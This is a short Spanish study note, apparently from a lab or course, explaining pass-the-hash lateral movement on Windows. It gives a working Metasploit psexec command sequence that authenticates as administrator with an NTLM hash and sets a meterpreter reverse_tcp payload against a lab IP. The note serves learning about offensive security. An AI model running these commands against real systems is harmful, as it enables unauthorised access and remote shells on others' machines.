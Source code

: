 
Es una Técnica utilizada para ataques de movimiento lateral donde el atacante utiliza el hash de una contraseña (comúmente el NTLM) sin necesitar utilizar la contraseña en texto plano.

Técnica especialmente relevante para windows, donde el NTLM sigue siendo soportado por compatibilidad con sistemas más antiguos.

Este tipo de ataque nos permite hacernos pasar por usuarios, ganando acceso y realizando movimientos laterales. 

Pasos a realizar:

1. Objetener el Hash
	1. Ataques mediante dumps de credenciales, scraping de memoria o capturando tráfico.
	2. Herramientas como Mimikatz, Hashcat o metasploit pueden ser usadas para extraer NTLM hashes.
2. Usar NTLM hashes para autenticarse
	1. Una vez el atacante tiene un NTLM hash puede usarse para autenticarse en otro sistema.
3. Conectarse a sistemas remotos
	1. Utilizar el hash NTLM para conectarse a sistemas remotos utilizando protocolos comunes como SMB, WMI, RDP...

## Con Metaspoit

Nos dan la ip víctima -> 10.4.29.129

Y el NTML hash.

![[Pasted image 20250303093202.png]]

```bash
#Inicio del metasploit en modo quiet.
msfconsole -q

#Vamos a utilzar el módulo para SMB
search psexec
use exploit/windows/smb/psexec

set RHOST 10.4.29.129
set SMBUser administrator
#Poner el NTLMHAsh que nos dan
set SMBPass 0000000000000000000000000000000:5c4d59391f656d5958dab124ffeabc20
set payload /windows/x64/meterpreter/reverse_tcp

exploit
```


![[Pasted image 20250303093542.png]]


